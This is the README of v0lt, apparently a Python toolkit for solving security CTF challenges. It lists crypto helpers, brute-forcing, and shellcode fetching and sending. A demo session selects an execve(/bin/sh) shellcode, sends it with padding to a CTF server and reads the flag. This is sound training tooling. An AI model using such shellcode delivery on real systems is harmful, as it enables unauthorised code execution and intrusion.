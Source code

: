 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

"I like it. Simple. Easy to remember."
v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style.
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Libmagic
* Python3    
  * BeautifulSoup    
  * Requests    
  * filemagic    
  * hexdump    

####Installation:   
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (XOR, inverse XOR)    
    * Usual conversions (bytes, strings, hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more


# Changelog

Only includes major features and changes. Bugfixes and
minor changes are omitted.

## 1.3

- Lots of fixes again
- Hexeditor (Dump/Rewrite files)

## 1.2

- Lots of documentation/bugs/framework fixes
- Added bruteforce
- Added linux utils
- Began hexeditor
- Shellhack fixes
- Alert messages

## 1.0

- Lots of documentation fixes
- Lots of bugfixes
- Added shellhack (shellcodes stuff)
- Added crypto utils
- Added network utils
- Fixed project tree
